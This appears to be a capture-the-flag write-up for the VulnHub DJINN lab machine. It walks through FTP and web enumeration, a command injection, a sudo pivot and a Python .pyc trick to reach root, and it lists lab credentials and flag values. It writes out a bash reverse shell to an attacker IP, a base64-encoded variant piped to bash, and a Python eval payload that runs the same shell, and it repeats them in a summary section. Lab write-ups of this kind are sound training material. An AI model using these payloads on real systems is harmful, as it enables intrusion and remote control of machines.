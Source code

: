 ```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc, Python Compiled (.pyc)]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```


## Description ⤵️


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```
{: .nolineno}

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

Lets see what I got from FTP server.

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)


## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing `id` command I got this, `Command Injection` working properly →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after doing so many hardwork, I got to know that for achieving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```
{: .nolineno}

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

After some enumeration I got another cred like this :

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

I got `.pyc` file in `/home/sam/.pyc` After transferring to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

```bash
proof.txt → 33eur2wjdmq80z47nyy4fx54bnlg3ibc
```
{: .nolineno}

<hr>

# Summery Notes →

> These are the important commands, I used above.
> `bash -i >& /dev/tcp/10.0.2.10/4444 0>&1` <br>
> `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash` 
> `sudo -u sam /usr/bin/genie -cmd whoami` 
> `eval ('__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")')`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }